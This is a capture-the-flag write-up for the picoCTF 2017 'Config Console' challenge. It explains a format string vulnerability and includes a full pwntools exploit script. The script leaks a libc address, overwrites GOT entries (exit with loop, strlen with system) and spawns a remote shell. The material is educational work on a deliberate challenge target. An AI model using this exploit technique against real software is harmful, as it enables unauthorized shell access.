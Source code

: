 # Config Console
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *125 points*
* Description: In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. See if you can get a shell on shell2017.picoctf.com:26325. [console](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/2e841ccdce35093853044e14057a7f07927b06e8/2017/picoCTF_2017/problems/binary/Config_Console/console) [Source](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/2e841ccdce35093853044e14057a7f07927b06e8/2017/picoCTF_2017/problems/binary/Config_Console/config-console.c)

# Solution

This program was vulnerable to a format string attack. The following is from the `set_exit_message` function:

```c
printf("Exit message set!\n");
printf(message);

append_command('e', message);
exit(0);
```

In order to get the program to allow multiple format strings, I overwrote `exit@GOT` with the address for the `loop` function so that we will have more opportunities to use our attack. The message buffer is stored on the stack so this part isn't difficult.

Now, we have to figure out how to call `system`.

I leaked a libc address via `%2$lx` and was able to calculate the offset to `system` by running the binary on the webshell in `gdb`.

Then it is relatively simple to do multiple writes and overwrite `strlen@GOT` with the address to `system`. Once this is completed, we can call the `set_prompt` function which calls `strlen` for us on the buffer object:

```c
void set_prompt(char *prompt) {
    if (!prompt) {
        printf("No prompt chosen\n");
        exit(1);
    }
    if (strlen(prompt) > 10) {
        printf("Prompt too long\n");
        exit(1);
    }
    printf("Login prompt set to: %10s\n", prompt);

    append_command('p', prompt);
    exit(0);
}
```

If we send `p sh` the program will call `set_prompt("sh")` and we will have shell.

# Script

[**exploitConfigConsole.py**](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/2e841ccdce35093853044e14057a7f07927b06e8/2017/picoCTF_2017/problems/binary/Config_Console/exploitConfigConsole.py)

```python
# By Harrison Green <hgarrereyn>

from pwn import *
import re

# Returns a string that writes up to two bytes to a specific memory address
# via a format string attack
def w(addr_raw, byte, one_byte):
	addr = str(hex(addr_raw))[2:]
	print(str(addr) + ' > ' + str(byte))
	val = str(int(byte,16)).zfill(4)
	addrStr = ""
	for i in range(0,len(addr),2):
		addrStr += chr(int(addr[i:i+2],16))

	s = "e %" + val + "x%16$h" + ("hn" if one_byte else "na") + "a" + addrStr[::-1] + (chr(0) * 5)
	return s

EXIT_GOT = 0x601258
STRLEN_GOT = 0x601210

# Connect
sock = remote('shell2017.picoctf.com', 26325)

# Overwrite EXIT_GOT with the address for loop() so the program loops instead
# of exiting
sock.send('e %2493x%16$hnaa\x58\x12\x60\x00\x00\x00\x00\x00\n')

# Fetch reference address
sock.send('e <%2$lx>\n')

# Parse reference address
resp = sock.recvuntil('>')
print('[' + resp + ']')
addr = int(re.search(r'<([a-f0-9]*)>', resp).group(1), 16)
print('Found address: ' + str(hex(addr)))

# Calculate system address
sys_addr = addr - 3564304
print('System should be at: ' + str(hex(sys_addr)))


# Prepare multistep format string attack
sys = str(hex(sys_addr))[2:]
sy = []

for i in range(0,len(sys),2):
	sy.append(str(hex(int(sys[i:i+2],16)))[2:])

sy = sy[::-1]

# Overwrite strlen with system
for i in range(0,len(sy)):
	sock.send(w(STRLEN_GOT+i, sy[i], True) + '\n')
	sock.recvuntil('Config')

# Get shell by calling system('sh')
sock.send('p sh\n')

# We've got shell
sock.interactive()
```
